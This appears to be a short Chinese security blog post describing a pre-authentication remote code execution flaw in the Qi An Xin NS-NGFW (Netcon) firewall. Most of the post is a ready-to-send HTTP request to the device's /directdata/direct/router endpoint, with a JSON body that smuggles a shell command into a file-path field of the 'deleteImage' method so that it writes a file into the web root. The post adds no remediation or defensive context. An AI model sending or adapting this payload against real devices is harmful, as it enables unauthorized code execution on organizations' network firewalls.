 ```yaml
---
layout: post
title: "奇安信NS-NGFW 网康防火墙 前台RCE"
subtitle: 'RCE'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```


访问地址
http://X.X.X.X/directdata/direct/router
请求头(requestHeader)

```

```

Host: X.X.X.X
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 155
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip
请求Body(requestBody)
{
   "action": "SSLVPN_Resource",
   "method": "deleteImage",
   "data": [{
       "data": ["/var/www/html/d.txt;echo '5b926437'>/var/www/html/5b926.txt"]
   }],
   "type": "rpc",
   "tid": 17
}

```